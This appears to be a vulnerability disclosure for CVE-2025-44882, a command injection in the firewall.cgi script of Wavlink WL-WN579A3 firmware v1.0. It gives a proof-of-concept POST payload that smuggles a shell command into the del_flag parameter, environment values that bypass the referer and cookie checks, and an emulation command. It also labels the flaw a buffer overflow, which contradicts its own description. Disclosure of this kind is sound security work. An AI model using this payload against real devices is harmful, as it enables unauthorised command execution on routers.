


**Affected Product**: Wavlink-WL-WN579A3

**Affected Firmware Versions**:  v1.0

**Vulnerability Type**: Buffer Overflow

**CVE Identifier**: CVE-2025-44882

CNVD:CNVD-2025-11240

# **Description**:

A command injection vulnerability exists in the  configuration management module's CGI script (`./etc/lighttpd/www/cgi-bin/firewall.cgi`). .The system function executes the concatenated byte_418C74. Since byte_418C74 can be controlled, the command execution vulnerability is triggered and any command can be executed.





# exploit：


entering the main function, first verify the reference and cookie, check the logic and add environment variables to bypass

```
-E HTTP_REFERER=wifi.wavlink.com
-E HTTP_COOIKE = session=1111111111111
```


tracking sub_4016F0 function When the user inputs the parameter firewall=singlePortForwardDelete, the function sub_4016F0 is entered. In the sub_4016F0 function, the user input parameter del_flag is spliced into v4, and then system(v4) is executed, so we can construct a suitable v4 for attack


post_data.txt as follows:

```
firewall=singlePortForwardDelete&del_flag=;ls;
```


Executing within a chrooted QEMU environment:

```
sudo chroot . ./qemu-mipsel-static -E CONTENT_LENGTH=1111 -cpu 74Kf  -g 1234 -E HTTP_REFERER=wifi.wavlink.com -E  HTTP_COOKIE=session=111111111111111  -L ./lib ./etc/lighttpd/www/cgi-bin/firewall.cgi < post_data.txt
```


Debugging confirms execution within `system()`



—the resulting command assembled by the application is:

```
uci delete firewall.@redirect[;ls; ]
```

This command not only executes the intended script (`uci delete firewall.@redirect[`) but also the injected `ls` command, which confirms that arbitrary command execution is possible. Given the potential for information disclosure and further system compromise, this issue is critical and should be addressed promptly.
